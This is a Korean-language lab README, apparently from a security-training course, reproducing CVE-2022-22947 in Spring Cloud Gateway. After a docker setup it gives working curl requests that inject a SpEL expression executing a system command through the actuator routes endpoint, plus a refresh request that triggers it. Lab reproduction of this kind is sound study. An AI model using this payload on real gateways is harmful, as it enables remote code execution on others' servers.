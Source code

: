# Spring Cloud Gateway Code Injection vulnerability (CVE-2022-22947)
화이트햇 스쿨 3기 - [박정원(no1pjw)](https://github.com/no1pjw)
## 요약
Spring Cloud Gateway는 SpEL 표현식을 사용하며 Spring Cloud Gateway 모듈 중 getValue 메서드는  StandardEvaluationContext를 사용해 모든 유효한 SpEL 표현식을 처리하는데, SpEL을 처리하는 과정에서 입력에 대한 검사가 존재하지 않아, 임의 코드를 실행하는 SpEL을 전달할 수 있음.

## 환경 구성 및 실행
```bash
docker compose up -d
```
docker compose up -d를 실행합니다. 
실행한 뒤에는 localhost:8080/actuator/gateway/routes에 접속해서 잘 구성되었는지 확인합니다.

![image](https://github.com/user-attachments/assets/3ccdc907-349b-4271-8166-e21ae088ff6d)

그 후, value에 악의적인 코드를 넣어 새로운 루트를 만드는 요청을 전송합니다.
```bash
curl -v -X POST http://localhost:8080/actuator/gateway/routes/hacktest \
  -H "Content-Type: application/json" \
  -d '{
    "id": "hacktest",
    "filters": [{
      "name": "AddResponseHeader",
      "args": {
        "name": "Result",
        "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
      }
    }],
    "uri": "http://example.com"
  }'
```
그리고, 구성을 강제로 로드하기 위해 refresh에 POST 요청을 전송합니다.
```bash
curl -X POST http://localhost:8080/actuator/gateway/refresh \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Accept: */*" \
  -H "Accept-Language: en" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36" \
  -H "Connection: close" \
  --data ""
```
구성을 강제로 로드하기 위해 refresh에 POST 요청 전송

# 결과
![image](https://github.com/user-attachments/assets/f8a99e21-9b2b-4a3a-8796-c2ca81e8fdc2)

악의적인 동작이 실행되어서 의도치 않은 동작이 수행된 것을 확인할 수 있습니다.
